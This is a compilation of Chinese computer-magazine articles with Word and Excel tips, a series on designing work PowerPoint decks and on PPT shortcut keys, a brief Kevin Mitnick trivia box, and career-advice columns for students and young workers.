**小知识**：大家一定知道超级黑客凯文·米特尼克吧，深为他的社会工程学所折服，美国国防部、五角大楼、中央情报局、北美防空系统……都是他闲庭信步的地方，没有人怀疑他的真实身份，对于他所想获得的信息如鱼得水，这便是社会工程学的魅力。社会工程学师总会设法找到一个切入点，哪怕只需要你的一个名字，他就能越过你所装的最好的防火墙或是杀毒软件，如果他们开始精心设计一个陷阱，一切皆有可能。详细信息可参阅：http://baike.baidu.com/view/118411.htm。

# 保护文档安全 Word文档快速加密

好友华华是某单位文秘，为了保护文档的安全，单位要求每个Word文档都要加密，虽然Word提供了加密的功能，但每个文档都要手动去设置密码，非常麻烦，也浪费时间，这里推荐一种用快捷键快速给Word文档加上统一密码的办法，不管是自己建立的文档，还是编辑别人发的文档都可通过快捷键加密。

以Word 2003为例，先打开Word，单击“工具”菜单，依次选择“宏/录制新宏”，开始录制一个新宏，这时就弹出一个“录制宏”对话框，在“宏名”中输入录制宏的名称，如“快捷键加密”，在“将宏保存在”中选择“所有文档 (Normal.dot)”，在“将宏指定到”功能区中单击“键盘”，在“请按新快捷键”栏中设置自己加密的快捷键，如Ctrl+F3，单击“指定”，然后单击“关闭”返回“录制宏”窗口开始录制宏。

再来设置打开密码，单击Word中的“工具”菜单，单击“选项”，在“选项”对话框中选择“安全性”页，然后在“打开文件时的密码”中输入自己定义的通用密码，如“lxyz2008”，输入完毕后单击“确定”按钮，这时会弹出一个“确认密码”的对话框，只需再次键入密码，然后单击“确定”按钮就可以了。
最后依次单击Word菜单“工具/宏/停止录制”，再关闭Word，这样宏的录制工作就完成了，这样以后不管是自己新建的Word文档，还是编辑别人发来的文档，只要在需要加密的文档中按预设的快捷键（Ctrl+F3）就能快速完成对文档的加密了，是不是很方便。

# PPT大师成长之路 玩转工作型PPT(一)

## ——工作型PPT的几个常见问题

**【作者简介】** Lonely Fish（包翔先生），卓域国际（ZOOOLY Consulting）首席执行官兼首席培训师，出版有PPT畅销书《说服力：让你的PPT会说话》、《说服力：工作型PPT就该这样做》。包翔先生长期从事通信行业咨询，极为擅长工作型PPT设计及创新PPT理念，被誉为“管理咨询领域最擅长设计PPT的人，在PPT设计领域最擅长做管理咨询的人”。其独树一帜的工作型PPT设计风格已经成为一种流派，被PPT设计业内尊称为“包翔流派”，简称为“包派”，其个人博客lonelyfish1920.blog.163.com是目前最受读者欢迎的PPT博客。

“工作型PPT”这个名词在国内最早是我在自己的博客“让PPT设计NEW—NEW”中提出的概念，没想到如今这个名词成为了PPT业界公认的叫法。由于我核心工作是做管理咨询的，所以我接触到了不同性质的企业，我深刻体会到越来越多的企业把PPT作为日常交流的最常见工具，但我也体会到绝大多数企业的PPT使用都存在一些问题，或者说，至少在观念上存在问题，今天我会对部分常见问题做个回答，同时提供给大家一些较为实际的操作思路和方法。

在以后的日子里，我会经常和大家再细致地聊一些关于PPT设计，尤其是工作型PPT设计的操作思路和方法。

**问题一：“PPT就是设计得漂亮一点，有必要那么在意它吗？”**
我知道很多人看不起PPT的，认为PPT仅仅就是图个好看而已，其实，真正独立做了几个50页篇幅以上的PPT之后，应该会有一种“想发力而不知道怎么发力”的感觉。其实，绝大多数人太小看PPT所需的能力要求了。工作型PPT核心考验的是一个职场人士的四种核心能力：逻辑能力、写作能力、设计能力和演讲能力。正所谓：“思路决定出路，眼界决定境界”，PPT作为信息呈现的一种载体，其真正体现的作者对公司战略、发展思路、具体举措等方面的理解和阐述，这需要的是严密的逻辑能力，并通过较好的写作能力表达出来，然后借助合适的设计手段表现出来，最终要通过良好的演讲把平面信息转换为语音信息，加深大家的理解。其中，PPT所呈现的思考高度和对自身行业的专业洞察是工作型PPT的“重中之重”。大家通常所说的PPT美观程度只是工作型PPT的一部分，但绝不是核心部分，正如我一直强调的一句话：“优秀PPT的价值不在于花架子，而在于内容本身的实架子。”

**问题二：“如果我素材有你们那么多，你怎么知道我做不好PPT？”**
通常大家讲的素材分两种：模板素材，图片素材。
(1) **模板素材**。我一直很奇怪，为什么有那么多人喜欢收集模板，因为一般公司都规定有自己的模板，所以根本没什么机会使用其他模板的，我建议不用下载那么多模板素材，要收集也是收集自己公司里的模板，确保有淡色底色和深色底色各一套模板即可。
(2) **图片素材**。图片是PPT重要的组成部分，一般而言，我建议大家不要使用卡通人物的图片，而应该选择全真彩色图片，一般而言，你通常可以去下面几个网站搜索图片：
    微软：office.microsoft.com/zh-cn/images/
    搜索引擎：image.google.com, bing.com/images, Flickr.com
    图片网站：昵图网，素材中国

**问题三：“我们公司的PPT都需要放文字很多的，我怎么办？”**
我在客户公司做PPT内训时，经常有学员问我这个问题：“老板喜欢在PPT上放很多字，我们怎么帮他做出比较美观的PPT呢？”
经过长年积累，我总结了一些小诀窍，供大家尝试：
(1) **小标题法**。把一大堆文字梳理出几个段落，每个段落设置一个小标题，这样方便大家只看标题不细看具体的内容，这样大家可以有效提高阅读效率；
(2) **缩字体法**。目前流行的很多所谓的PPT设计原则本质上对工作型PPT而言根本就是错的，例如：10/20/30原则（只有10页幻灯片，持续时间不超过20分钟，字体不小于30号），如果用30号字，每页上几乎放不下50字，究其原因，不是原则的错误，而是使用场景出现了“错位”。10/20/30原则适合那种“演讲型PPT”，PPT只是演讲者的一个观点，核心论据都是靠演讲者以口述的方式去表达。然而，工作型PPT恰恰相反，它更适合让领导去“阅读”，所以一般采用14-16号字体即可，让页面“留白”多一些，任何成功都是需要积累的，任何美化都是需要空间的；
(3) **图表化法**。由于文字信息一多，容易产生视觉疲劳，所以合理运用图表化的方式，可以在有效传递信息的同时，取悦观众的眼睛。PowerPoint 2007与2010版中的SmartArt功能就自动化地提供了较多的可以直接套用的图表素材，初学者完全可以多多采用。
工作型PPT也是一门“技术活”，需要反复实践，反复思考，最后，我给大家“三不三要”的建议：
**三不**：整套PPT颜色不要超过3种，能用图不用表，能用表不用字；
**三要**：要准备自己的素材库（图片、剪贴画、模板等等），要熟练掌握PPT的快捷键（每一操作快一秒，一辈子快多少时间啊），要多看看PPT高手的作品。

（文/叶勇）

（文/贺全荣）

（文/Lonely Fish）

# PPT大师成长之路 玩转工作型PPT（二）——用好常用的PPT热键

说起快捷键，也许你会说，每个软件的帮助文件中写得清清楚楚，不说我也清楚！然而，在实际操作当中，你能挑出哪个重要哪个不重要，这些快捷键你又用了多少呢？近道不走走远道，效率肯定不会高。下面，我们继续倾听Lonely Fish（包翔先生）讲述如何精选精用PPT热键。

Lonely Fish：快捷键到底重要不重要呢？很多人觉得没什么大不了的，无非就是快点和慢点的关系。其实呢，我觉得挺有必要，原因很简单，如果你每个操作都少操作一秒钟，一套50页的PPT，每页少算也有50个操作，其中一半操作可以用快捷键代替，那节省的时间就是50项操作/页×50页÷2=1250项操作，即节省20分钟！你这辈子要做多少套PPT，如果使用快捷键，可以节省多少个20分钟啊！

所以，学好常用的PPT快捷键，很有必要性。

首先，我教大家几招最常用到的PPT快捷键：

- (1) 页面内图形快速复制粘贴：左键点击图形，按住不放，同时按住Ctrl键，鼠标出现一个小的加号，这时候鼠标拖动图形，图形就被复制了。这种操作比Ctrl+C和Ctrl+V要快很多。
- (2) 让屏幕黑屏/白屏：在全屏播放模式下，按W可以显示白屏，按B可以显示黑屏。这主要用在什么场景呢？例如，你讲完了PPT上的内容，然后希望补充一些重要的要点信息，这时候你可以通过按W或者B之后，让大家的注意力集中到你这里，认真听你讲话，而不是把注意力集中在PPT页面上。
- (3) 全屏播放时快速切换：假定现在正播放第80页PPT，老板拿着你PPT的打印稿突然发问：“你这里讲的内容和之前第12页的内容是不是有矛盾？”呵呵，现在教你个小技巧，如果你现在全屏演示的是第80页的内容，你想跳转到第12页，你只需要先按数字12，然后按回车即可。
- (4) 快速调节字体大小：放大和缩小文字字号是最常见的操作，一般人是通过直接选择字号或者使用面板上的加大或缩小功能键完成的。对于不熟悉界面的朋友，搞不好还要找找功能键在哪里。我教大家一个快方法，选中文字后按Ctrl+]就是放大文字，Ctrl+[就是缩小文字。
- (5) 全屏播放时快速回到首页：在全屏演示的状态下，如果同时按住两个鼠标按钮几秒钟，页面就会返回到首页。这也是一个不为人知的小窍门。

为了帮助大家学习快捷键，我将常见的PowerPoint快捷键整理如下，重中之重的快捷键都加★表示，大家记得平时要好好尝试和使用，习惯之后，你就会觉得快捷键是多么的好用了。

（文/Lonely Fish）

| 编辑快捷键 | | |
|---|---|---|
| Ctrl+T：在句子、小写或大写之间更改字符格式 | Shift+F3：更改字母大小写 | Ctrl+B：应用粗体格式 ★ |
| Ctrl+U：应用下划线 ★ | Ctrl+I：应用斜体格式 ★ | Ctrl+等号：应用下标格式(自动调整间距) |
| Ctrl+Shift+加号：应用上标格式(自动调整间距) | Ctrl+空格键：删除手动字符格式，如下标和上标 | Ctrl+Shift+C：复制文本格式 ★ |
| Ctrl+Shift+V：粘贴文本格式 ★ | Ctrl+E：居中对齐段落 | Ctrl+J：使段落两端对齐 ★ |
| Ctrl+L：使段落左对齐 | Ctrl+R：使段落右对齐 | |

## 幻灯片放映控制快捷键

PowerPoint在全屏方式下进行演示时，用户可以操作的只有右键菜单和放映按钮，大家还可以使用以下专门控制幻灯片放映的快捷键，非常方便！

| N、Enter、Page Down、右箭头(→)、下箭头(↓)或空格键：执行下一个动画或换页到下一张幻灯片 | +Enter：超级链接到幻灯片上 | E：擦除屏幕上的注释 ★ |
|---|---|---|
| P、Page Up、左箭头(←)，上箭头(↑)或Backspace：执行上一个动画或返回到上一个幻灯片 | B或句号：黑屏或从黑屏返回幻灯片放映 ★ | W或逗号：白屏或从白屏返回幻灯片放映 ★ |
| S或加号：停止或重新启动自动幻灯片放映 | Esc、Ctrl+Break或连字符(-)：退出幻灯片放映 | H：到下一张隐藏幻灯片 |
| O：排练时使用原设置时间 | M：排练时使用鼠标单击切换到下一张幻灯片 | T：排练时设置新的时间 |
| Ctrl+P：重新显示隐藏指针或将指针改变成绘图笔 | Ctrl+A：重新显示隐藏的指针和将指针改变成箭头 | Ctrl+H：立即隐藏指针和按钮 |
| Ctrl+U：在15秒内隐藏指针和按钮 | Shift+F10(相当于单击鼠标右键)：显示右键快捷菜单 | Tab：转到幻灯片上的第一个或下一个超级链接 |
| Shift+Tab：转到幻灯片上的最后一个或上一个超级链接 | 同时按下两个鼠标按钮几秒钟：返回第一张幻灯片 | |

## 浏览Web演示文稿的快捷键

以下快捷键用于在网络（包括局域网、互联网等）上查看Web演示文稿。

Tab：在Web演示文稿的超级链接、“地址”栏和“链接”栏之间进行切换
Shift+Tab：在Web演示文稿的超级链接、“地址”栏和“链接”栏之间反方向进行切换

| Enter：执行选定超级链接的“鼠标单击”操作 | 空格键：转到下一张幻灯片 | Backspace：转到上一张幻灯片 |
|---|---|---|

## 通过邮件发送PPT的快捷键

如果用户要将演示文稿作为电子邮件正文发送时，可以通过以下的快捷键提高工作效率，此时要求邮件头处于激活状态。

| Alt+S：将当前演示文稿作为电子邮件发送 | Ctrl+Shift+B：打开“通讯簿” | Shift+Tab：选择邮件头中的前一个字段或按钮 |
|---|---|---|
| Alt+K：在“通讯簿”中选择“收件人”、“抄送”和“密件抄送”栏中的姓名 | Tab：选择电子邮件头的下一个框，如果电子邮件头的最后一个框处于激活状态，则选择邮件正文 | |

## 流水账汇总 当然要又快又准

在我们的日常工作当中，有时需要将一些流水账形式的数据汇总到另外一个数据报表中去，如员工每个月的加班津贴记录汇总到工资表。通过Excel的分类汇总命令来汇总这些数据，不但要先以“分类字段”为主关键字，对目标数据区域进行排序，数据汇总完成之后，还需要通过手工方式输入到目标位置，操作比较麻烦。其实，借助Excel的条件求和函数SUMIF，就可以让此类流水账汇总操作又快又准。

具体操作方法如下：在J3单元格中执行“公式-插入函数”命令，插入条件求和函数“=SUMIF('2011年加班津贴.xls'5月份!$B$2:$B$1001,B3,'2011年加班津贴.xls'5月份!$C$2:$C$1001)”，条件比较区域Range为“'2011年加班津贴.xls'5月份!$B$2:$B$997”，比较条件Criteria为B3，求和区域Sum_range为“'2011年加班津贴.xls'5月份!$C$2:$C$997”，单击“确定”，即可完成一位员工的加班津贴汇总导入。为了保证加班人数发生变化时，该数据汇总操作仍然有效，这里取了一个较大的数值范围2,1001（即最多能汇总1000人次的加班津贴），双击J3单元格右下方的公式复制句柄“+”，即可将该函数复制应用到整个J列单元格。

请注意对SUMIF函数的条件区域和求和区域都使用绝对引用，否则在进行公式的复制时，会出现意想不到的差错。

小提示：

如果一位员工本月没有加班津贴，对应的单元格计算结果会显示为0，影响查看效果，依次单击“Office按钮—Excel选项”按钮，去掉“高级”选项中的“在具有零值的单元格中显示零值”前面的勾选，即可将当前工作表中所有单元格中的0隐藏起来。

(文/远渡重洋)



# PPT大师成长之路 玩转工作型PPT(三) ——工作型PPT设计之一:10条建议





前些日子，我收到一位老师的E-mail，这位陈老师提的问题其实很简单："目前PPT设计的多种流派，似乎都不适合我们工作时候使用，我日常工作中究竟该如何设计较好看的PPT呢？"

您是不是也会有类型的问题呢？

很多朋友不知道怎么把PPT设计得相对好看一些的原因就在于无法把控字多的PPT怎么设计。有些PPT培训师甚至鼓吹每页PPT用一句话说明观点。真要了亲命了！朋友们，要做好工作型PPT，你唯一能做的就只有一件事——按照商务审美规则来设计PPT！

为了能讲述清晰，大家都能深入理解，我把当初这位陈老师给我的普通一页PPT内容做了一次优化。

## 商务审美规则包括哪些呢？今天我就来谈一下“工作型PPT的十大基本原则”。

### 原则一：逻辑要有“主次之分、因果之分”

原则内涵：这是个重要无比的问题，这就是为什么我放第一个讲的原因。什么是PPT的逻辑？简而言之，就是你希望观众“先看什么，后看什么，重点看什么，可以忽略什么”的原理。我属下的PPT的技能普遍比很多公司的员工要好很多，但是他们受到我最多的批评就是对观众的注意力的控制力不强，控制力的背后是强大的逻辑支撑的。同样一段话，为什么有些人读出这是个因果关系，而你读过去，就感觉这是一句话呢？这有一定的技巧在里面，这很需要锻炼。

案例分析：仔细分析原文PPT，你会发现，第一段“在DNA分子复制时，……‘一母一子’，是因，第二段“因此复制更为精确，致使遗传信息更加稳定”是果。在改进版里面，通过箭头使得这种逻辑关系变得清晰起来。

### 原则二：色调

原则内涵：色调淡雅，以素色为主。如果你不是广告公司或设计类公司，请不要使用过于绚丽的颜色。

案例分析：整个页面使用淡蓝色，与模板的右上角蓝色较为协调。

### 原则三：标题栏

原则内涵：我强烈建议你要使用标题栏。工作型PPT的内容篇幅一般非常长，有非常明确的章节嵌套关系，你不用标题栏，领导会记得住你现在讲哪块内容才怪呢。

案例分析：“DNA分子复制对DNA作为遗传物质有何意义？”就是标题，它明确了整个页面的主题是“意义”。

### 原则四：图形

原则内涵：工作型PPT有非常多需要使用“多维度”的逻辑结构模型（前提是你要能分得出逻辑层次与内在关系）。这时候，你不用多想了，网上找个咨询公司的模板或者TG模板过来都可以用。但记住一点，整套PPT只能使用一套模板，别一会用罗兰贝格模板，一会用TG模板。

案例分析：修改前的PPT基本上没有使用什么图形，使得整个页面比较单板。修改后的页面主要使用了圆角条形，使得页面不会太单调。

### 原则五：图片

原则内涵：低像素的图片统统舍弃。如果你的图片像素比较低，你只有2个choice——缩小图片或者直接不用这个图片。建议你去找高像素图片。当然咯，即使选择图片，也是很有讲究的，要考虑整个图片的色彩与整体PPT匹配不匹配，以及图片能否表达你潜在的思路。

案例分析：一般而言，很多人忽略了微软Office官网素材库，那可真的是宝库（http://office.microsoft.com/zh-cn/images/），里面的图片都是免费的高清图片，还不赶快去看看~~呵呵

### 原则六：logo

原则内涵：工作型PPT是需要放logo的。logo能放的位置也就是PPT的四个边角（也有单位放底部中间的，如：麦肯锡）。但是呢，我建议你别放页面的右下角，因为这里通常要放页码的。

案例分析：本次案例中没有放公司logo，但是你可以把右上角的DNA看做是个logo。

### 原则七：动画

原则内涵：优秀的工作型PPT很少用动画，而且我强烈建议你不要使用页面切换动画。试问，你看见过多少世界顶尖咨询公司或财富500强公司的PPT是使用切换动画的呢？不使用的原因很简单呀——没必要，观众关注的是内容，不是页面怎么过渡的。

案例分析：如果不是去演讲，没必要设置动画。

### 原则八：字体

原则内涵：字体这个问题本没必要说，因为大多数人使用宋体。你使用何种字体，其实问题都不是太大，但我建议你别使用过于冷僻的字体，换言之，你的PPT给了领导，领导打开后，由于没安装你的字体，而PPT全部变形，这时候他不发飙才怪呢，呵呵。

案例分析：案例中的字体全部采用“微软雅黑”。因为这款中文字体相对比较粗，而且线条比较柔和。一般而言，工作型PPT推荐大家使用的字体有这几个：黑体（标题）；华文细黑、微软雅黑、楷体（正文）。

### 原则九：底色

原则内涵：这个问题很多人不太注意，但是在打印文稿的时候就注意到了。原来的很多图形的颜色都变成了黑色，图形里面的黑色字一个都看不见，那是因为你原来PPT的底色和图形以及字体的颜色都是彩色的，一旦打印成黑白稿，可能出问题。最白痴的做法就是索性使用白色的底色，嘿嘿。

案例分析：案例中的底色就是以白底为主。这是比较讨巧的做法。

### 原则十：音效

原则内涵：建议只有2个字——不用！

案例分析：工作中我强烈“不”建议使用音效。音效是配合动画使用的，一般的音效听多了，给人感觉不专业，所以不推荐使用。

（更多PPT制作的话题可通过作者微博http://weibo.com/lonelyfish1920与作者进行交流）

（文/Lonely Fish）

## 为我所用 幻灯片文字统统拿来

有的幻灯片里的文字很有参考价值，你比方说，听完一个讲座，从老师那里拷来了一个讲座幻灯片，里面的要点、试题等你想重新排版后打印出来记忆。这时，复制工作往往有一定难度——我们希望能把幻灯片里面的文字内容快速拷贝出来再利用，然而由于这些文字可能是存在于幻灯片的各种组件里边的，一次性拷贝不能实现，需要多次反复拷贝粘贴，很麻烦。

下面，我提供一种解决方法，它能够自动地提取幻灯片中的所有文字信息，并自动灌入Word文档中。自动拷贝工作结束以后，你得到的将是一个包含所有文字信息的Word文档。

为了完成这项工作，首先需要下载一个幻灯片文字提取的绿色工具，该工具只有一个文件ppt Convert to doc.exe。

运行该文件，程序首先提醒你关闭所有运行中的Word和PPT程序；接下来，你需要将自己要提取的幻灯片PPT文件拖动到该软件的主界面空格窗口中。这时，软件开始提取PPT文件各组件中的文字信息，与此同时，软件会自动打开Word程序，将自动提取出的文本信息粘贴到Word中。经过一系列的转换之后，显示“OK，All Done”信息，转换完成。Word窗口出现的就是所有存在于PPT文档中的文字信息了，你可以随便编辑使用。

（文/杨树林）

# PPT大师成长之路 玩转工作型PPT(四) ——工作型PPT设计之二：关键词突出法

前几天我又收到一位教师的E-mail，他给我抛了一个“难题”：“经常遇到很多枯燥的概念，除了把字体变大之外，不知道如何让概念中的关键词更为突出。”好问题！你在工作中，很可能也遇到过相似问题吧。

OK，今天就来阐述这个问题，在征得对方同意之后，我把这个他给我的“原作”和我做的“改良版”做了小案例。

本质上说，要把关键信息突出，要做两个工作：一是把关键信息要抽离出来，所谓抽离就是你能读懂这段话的关键核心是什么意思；二是使用合适的文字凸显技巧（放大、变色、加粗、斜体、阴影、下划线、动画）。

为了理解清晰，我以那个老师给我的案例为切入点，谈一些工作型PPT的思路：

### 首页修改思路

- 1. 首页设计一要有冲击力，二要主题非常明确。所以，我选择了大红色做第一冲击波冲击学生的视觉，采用文字优化技巧特大字表明整个主题。
- 2. TG模板较为通用化，所以呢，我感觉和“新闻采访与写作”没啥关系。于是，我找了图片，终于找到一张类似报纸的背景图片来烘托整个主题。
- 3. 中间黑条主要是为了告诉学生，这套课程的核心目的是干嘛。作为学生，我觉得学生还是比较想知道这个课程能给他们带来什么收获，他们能得到什么。
- 4. 在没有开课之前，学生陆续进教室，这时候如果让他们也能安静下来看看东西也不错啊！所以呢，我设计了一个课程的概述，希望让他们知道这个课程的一些概要性信息（内容都是俺自己编的，所以请专家不要丢西红柿，呵呵）。
- 5. 最后签上名，让学员知道谁在给他们上课，这个老师的签名是长这个样子的，其实我是为了让页面不太沉闷而已。

接下来大家可以看看我对内容页的修改版：

### 内容页设计

- 1. 概念很关键，通常是考试必考的东西，OK，既然很重要，那我就设计了一个“三颗星”，这样可以告诉学生，这个知识点的重要性有多高，如果老师在课上提一句：“三颗星的内容都是考试必考题目”，我估计有90%的学生会在书上做记号了，另外没做记号的哥们都在睡觉呢，你别叫醒他们，让他们继续睡，考试时候让他们彻底睡不着！
- 2. 接下来谈逻辑。我以前说过，工作型PPT最关键的是逻辑。如果你仔细读一下原作的这个概念，你会发现其实就是三个并列句嘛！既然并列关系，那就用项目符号咯，简单吧？
- 3. 说实话，我第一次看到“原作”的概念时候，感觉重点不突出。究其原因，其实就是重点太多！俗话说“都是重点就等于没有重点”。所以，我建议把一页中的关键点数量尽量减少到5-6个以内。对了，概念中我要突出的仅仅是宾语，为什么我不突出动词呢？道理很简单，你记住了宾语，前面的动词基本上会记住的，哪怕你不记得，最后考试也会告诉你的，因为没有哪个考试会要学生填动词，而后面的宾语却留着。对吧？呵呵。
- 4. 再看这个概念的并列句，我用红色字体标出，这说明这绝对是重点，这是一种引起注意的办法。只要这个学生视力不是色盲，我估计他总是会看一眼这几个红字的。
- 5. 再看右边的Yes，这个呢，就是和原文一样的了，也是并列句，所以用项目符号很恰当。重点的内容，我用加粗字体突出，这也是一种引起别人注意的办法。
- 6. 很多好的解释或分析，也许很多老师把这些东西全都在课上讲到了，只是没写到PPT中，但我以学生角度谈，我希望能看到这些分析，而不仅仅是听到分析而已。这就是我为什么加了Yes和No的原因。









OK，讲完了，希望我的案例能对大家有帮助！
（更多PPT制作的话题可通过作者微博http://weibo.com/lonelyfish1920与作者进行交流）
(文/Lonely Fish)

## 天津大一新生入校攻略 备战4年后职场各有高招

9月初，大学新生们迎来了崭新的大学生活。在求职日显艰难的今天，大学生们从跨入大学的第一天起，就开始计划着4年后的出路。

> 天津理工大学机电专业的学生干部张森说：
参加社团活动或进入学生会，能够从很多方面锻炼一个人的综合能力。有些学生在学生会表现出色，比普通学生有更多机会被推荐到名企去工作。有些同学兼职干得很出色，毕业后就直接留在了那家公司。有的同学干的活很累，也挣不了多少钱，干到半路自己都不想干了，参加大型比赛可以从整体上提升一个人的素养和气质，但不是每个人都有这样的机会。”

> 天津科技大学英语专业的大四学生邱君洁说：
我大学期间做过很多兼职，伊利酸奶的促销、海尔洗衣机的礼仪等等。不过我最喜欢的还是家教，毕竟是脑力劳动，一个半小时就有60元。参加学校的一些主持活动对我影响也很大，我们从前期的写词、串词，到彩排，到正式主持时忘了词临场发挥，我觉得主持人做多了心理素质也会变得比较好。”

> 天津科技大学的董哲说：
我印象很深刻的是，以前新生交流会时一位学长说，每个人都有自己大学生活的过法，人应该有那么一个洒脱的阶段去做自己喜欢做的事情。很多男生大学期间除了上课就是打球，既锻炼了身体又认识了一帮好哥们，挺好的。有些同学就是专心致志地谈恋爱，有的见过家长后大四就开始筹备毕业后的婚礼了，不过大学期间的恋爱还是毕业说拜拜的比较多。

> 一位天津财经大学的班长说：
其实现在班干部的工作挺难做的，老师不能得罪，同学也不能得罪，辅导员老师可以让我们在成绩不是很优异的情况下，拿到更高数额的奖学金，获得一些荣誉，这些对找工作还是有点用处的。但是做人也要稍微厚道一点，你不能把好处全往自己一个人身上揽。办很多事需要眼观六路，耳听八方，我们现在都习惯了见人说人话，见鬼说鬼话。有时候也挺瞧不起自己的，不过没办法，很多事情只有这么处理才能维持表面上的平静和谐。

> 天津城建学院测绘专业的张悦说：
在大学里要想混得好，挺需要情商的。为人不能太飞扬跋扈，也不能太低调。“人善被人欺，马善被人骑。”不是说一定要多么强势，但至少有人故意欺负我们，我们要狠狠地反击。毕业后可能很多同学都会在天津工作，在学校里多认识一些朋友，今后可以互相帮助，如果有机会一起搞活动或是联谊，认识一些校外的朋友也不错，多一个朋友可能就多一条路走。

> 南开大学一名毕业生说：
很多学生会干部当年都特别牛，有的人离开学生会之后还是放不下当领导的架子，这样很不好，因为几年后指不定谁就混得比谁好，当初摆架子，后来有事再去求当年的‘下属’，是很堆堪的一件事。还有很重要的一点是，一定要跟同寝室的人处好关系，大学四年你们在一起的时间相当多，其实毕业后想想当初因为一点小矛盾闹僵，真的很不值。与人相处还是以诚相待，退一步海阔天空吧。”

考上了大学，开始追逐自己的理想，离开家庭生活，开始独立参与团体和社会……大一新生迈进校门后，激动、兴奋，对一切都是那么好奇。如何度过四年的大学生活，如何在将来的就业中脱颖而出，成为许多大学新生刚入校就开始考虑和探讨的话题。

曾经走过大一的你们对于大一新生有什么样的建议，欢迎发信至zc@cfan.com.cn，谈谈你的经验和体会。

(来源：人民网)

## 职点迷津（一）

### 提问

同同：我今年大四，开始准备找工作了，请问除了简历外我还需要准备名片吗？名片到底有用吗？我没什么经验的，怕印了适得其反。

### 专家意见

- **分享您的联系信息**：这是最基本的功能。如果没有名片，有时会把自己的名字和电话或电子邮件等写到便签条、废纸片或餐巾纸上，它很可能被随手扔掉。有了名片，看起来更专业、更职业化，更容易被识别并保存。
- **帮助人们记起你**：相信很多人都有过和我类似的经历：在聚会上和一些新认识的朋友谈了几分钟后，又开始与别人交谈。再经过一夜，可能完全不记得第一个交谈对象了。但如果有他们的名片，就可以很容易看到他们公司的名字，还可以浏览他们的网站。同样的道理也适用于学生，如果给人一张卡片，印有你的大学名称、联系信息、学位或研究项目，将帮助人们记起你。
- **打造个人品牌**：作为一个学生，特别是即将毕业的大学生，你需要打造个人品牌。可以将自己的研究工作、得意的作品粘贴到名片上，作为自己的卖点。
- **搭建人际网络**：如果你想逐步建立自己的人际网络，那么名片是有帮助的。大学生都喜欢参加各种聚会活动，那么为什么不在各种交流活动、招聘会、研讨会、讲习班、聚会等场合送出你的名片呢？递交给潜在的雇主或客户一张有形的卡片，可以给他们留下重要的第一印象，并可以给他们留下一个持久的提醒。当他们回到办公室后，仍会记得你和你的作品，并知道该如何联系到你。也许这里面就有你未来的合作伙伴呢！

不过学生名片与商务人士的名片不同，应尽量简单明了，提供电话、姓名、学校、专业等基本信息，再粘贴自己的近照或“卖点”即可。

关于职场，你有哪些困惑和心得体会，请发至 zc@cfan.com.cn。

## 职点迷津（二） 是选择大型国企里工资低的工作，还是跳槽去小型外企工资高的工作？

小海：先说说我的情况：本人2010年6月毕业，现在在一家大型国企工作，福利待遇不错，就是需要经常性地倒班和加班，车间里没有空调，夏天热冬天冷，而且发展前景不太好，没有晋升的机会。每月工资税后3000元左右，一年能拿14个月的工资，在法定节假日会发奖金。现在我有个机会去小型外企工作，工资比国企高了70%左右，我觉得有发展前景，但是父母说外企不稳定，国企稳定。我该如何选择呢？

回答：其实工资高低和国企、私企、外企没有绝对关系，还要看自己的实力与机遇。工资是社会价值的一种体现，你要做的是提高你的自身价值，在国企或者外企区别不大。比如你在外企拿8K/月，在国企拿4K/月，这只是企业认为你所能创造的价值。当你提高了自己的社会价值后，自然会有企业高薪来聘请你。另外，跳槽要考虑很多东西，包括工作环境、福利、企业文化和稳定性等。工资不是工作的全部，工作也不全是为了钱。至于说选择国企还是外企还是要看具体情况。很多国企都是论资排辈的，如果这个国企的效益和前景不错，值得你为之奉献半辈子，那么进国企也不错。而每个外企的企业文化都不一样，不否认有些外企也有很重的国企套路在里面。做选择时要慎重，要了解清楚企业的具体情况，一定不要只凭目前的工资做出选择。

## 职点迷津（三） 事业起步了 却赶上限购了

北极狐：我大学毕业7年，经历了出国留学、转行、跳槽，终于熬到管理层，事业处于稳步上升期。前几年没安定，也没有足够的积蓄，所以一直没买房。现在想买房安定下来结婚生子，却赶上限购了。由于我有4年的时间都不在北京，无法提供5年的纳税和社保证明材料，因此现在无法买房。我心里设想的生活轨迹全被打乱了，不知何时才能实现买房梦？我周围的曾经辉煌的一些人都选择离开了大城市，家人也劝我调回老家工作，可老家那里没有总部的分公司，而且在大公司，凡事都有章法，不是我想调哪就可以调哪的。我要么继续坚守在北京，看看以后的发展趋势和政策变化，但没有房的滋味不好受；要么辞职再在老家找其他工作，但如果辞职这些年的积累又打水漂了，一切从零开始，而且在家乡想找个好工作也不容易。我该何去何从，是继续等待还是选择离开？

回答：房屋限购令及实施细则的出台，的确令许多做着购房梦的北漂梦想落空。对于像北极狐这样在京打拼多年、事业小有成就、又到了成家立业年龄的人们，面临着事业和家庭的双重迷惘。计划总是赶不上变化。虽然生活轨迹被打乱，但还得理智面对现实。对年轻人来说，房子和职业理想，应该优先选择哪一个？很多人持不同的看法。就目前的情况来说，房子固然重要，人的发展才是根本，不能因为房子而影响了职场的规划。房子如果买不了还可以租，现在买不了了以后可以再买，但工作却不能说辞就辞，它影响着一个人今后的职业规划和发展空间，一定要慎重。

> “男人立身于世，最终要靠事业。并且，有事业，一切都会有的。对此，我坚信不疑。”李勇坚持先创业，再买房，经了风雨，成了事业，最后在北京买了套100平方米的房子。

## 职点迷津（四） 参加培训 还是自学

提问：我是一名普通的大学生，毕业两年，现北漂一族。我学的是电子工程，做过C语言编程，未从事本专业相关工作。我现在想做android应用程序的开发，不知该如何学起。听说有很多人自学，但我不是计算机专业，没有Java基础，英语倒是不错。听说培训机构包就业，提供推荐就业，我想去北京找一家比较有实力的android培训学校参加培训，可总觉得花钱太多，学费就1万5左右，还有寝室费、吃饭费用等。而且我知道培训机构只是教基础，他们教完基础也需要自己学，所以为什么不能自学呢？很迷茫，请高人指点，培训班的好处和自学的坏处？

### 各方观点

送水哥（培训成才）：在某培训机构参加Java培训之前，我也有你这样的想法。如果你没有真正接触过Android，在网上查些资料，自己做些小程序，这样我不排除你是能学会，但是你学习的时间可能很长，或者花费很久也没能学到一定的程度。我个人认为学什么都还是有个老师教比较好，中间的语法和逻辑算法不是你能顺顺便便就能看懂的。此外没有老师教，你可能会懈怠，所以到头来可能把时间浪费了，自己也没学好。如果想学，建议你还是参加一个培训班比较好，他们系统地教你学习，还有很多项目可以和小组一起做，这样能帮你快速学到新的知识！

